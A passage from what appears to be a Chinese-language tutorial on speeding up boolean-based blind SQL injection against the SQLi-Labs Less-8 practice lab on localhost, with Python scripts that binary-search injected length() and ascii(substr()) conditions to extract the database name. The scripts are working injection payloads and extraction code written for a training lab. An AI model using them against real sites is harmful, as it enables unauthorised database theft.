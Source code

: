 为了加快搜索速度，我们常用二分查找，时间复杂度为$O(m\log_2{n})$：

```python
import requests

MAX_FILED_LENGTH = 20
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"

databaseLengthRange = [1,MAX_FILED_LENGTH]
URL = URL_PREFIX + "?id=1' and length(database())>{} --+"
while databaseLengthRange[0] != databaseLengthRange[1]:
    currentDatabaseLength = sum(databaseLengthRange) // 2
    if "You are in..........." in requests.get(URL.format(currentDatabaseLength)).text:
        databaseLengthRange[0] = currentDatabaseLength + 1
        continue
    else:
        databaseLengthRange[1] = currentDatabaseLength
        continue
databaseLength = databaseLengthRange[0]
print("数据库名的长度为{}位".format(databaseLength))

databaseName = ""
URL = URL_PREFIX + "?id=1' and ascii(substr((select database()),{},1)) > {}--+"
for filedLength in range(1, databaseLength+1):  # substr()是从1开始数的，而不是0
    characterAsciiRange = [0,127]
    while characterAsciiRange[0] != characterAsciiRange[1]:
        currentCharacterAscii = sum(characterAsciiRange) // 2
        if "You are in..........." in requests.get(URL.format(filedLength, currentCharacterAscii)).text:
            characterAsciiRange[0] = currentCharacterAscii + 1
            continue
        else:
            characterAsciiRange[1] = currentCharacterAscii
            continue
    databaseName += chr(characterAsciiRange[0])
    print(databaseName)
```

我们还可以对上述逻辑封装成一个通用的函数：

```python
import requests

MAX_FILED_LENGTH = 20
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"


def getBinarySearchResult(url: str, paramRange: list[int], successInfo: str) -> int:
    """
        url : 形如...>{}的链接
        paramRange : [参数的最小值,参数的最大值]
        successInfo : 成功时的回显内容
    """
    while paramRange[0] != paramRange[1]:
        tempParam = sum(paramRange) // 2
        result = requests.get(url.format(tempParam)).text
        if successInfo in result:
            paramRange[0] = tempParam + 1
            continue
        else:
            paramRange[1] = tempParam
            continue
    return paramRange[0]


```